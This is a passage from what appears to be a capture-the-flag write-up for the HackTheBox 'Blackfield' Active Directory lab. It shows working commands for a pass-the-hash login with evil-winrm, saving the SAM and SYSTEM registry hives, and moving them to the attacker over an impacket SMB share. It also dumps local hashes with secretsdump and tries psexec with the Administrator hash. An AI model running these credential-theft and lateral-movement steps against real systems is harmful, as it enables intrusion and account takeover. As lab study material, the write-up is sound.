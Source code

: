Then using that hash I logged in using `evil-winrm`:

```bash
evil-winrm -i $IP -u svc_backup@blackfield.local -H 9658d1d1dcd9250115e2205d9f48400d
```

![image.png](image%2017.png)

## Privilege Escalation

Checking my privileges I identified that I have `SeBackupPrivilege` and `SeRestorePrivilege`:

![image.png](image%2018.png)

The SeBackupPrivilege lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`

```powershell
reg save HKLM\SYSTEM SYSTEM.SAV

reg save HKLM\SAM SAM.SAV
```

![image.png](image%2019.png)

Now let’s transfer them to attacker machine using smb share method as it is the fastest.

```bash
sudo impacket-smbserver share -smb2support .
```

![image.png](image%2020.png)

Now we can run `secretsdump.py` and dump SAM local database:

```bash
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
```

![image.png](image%2021.png)

Now let’s try local admin hash to see if local accounts allowed for remote access:

```bash
impacket-psexec Administrator@$IP -hashes :67ef902eae0d740df6257f273de75051
```

![image.png](image%2022.png)

```bash
evil-winrm -i $IP -u Administrator@blackfield.local -H 67ef902eae0d740df6257f273de75051
```

![image.png](image%2023.png)

Local Admin remote login is prohibited. 

I am gonna abuse SeBackupPrivilege using these [dlls](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug), diskshadow and robocopy.
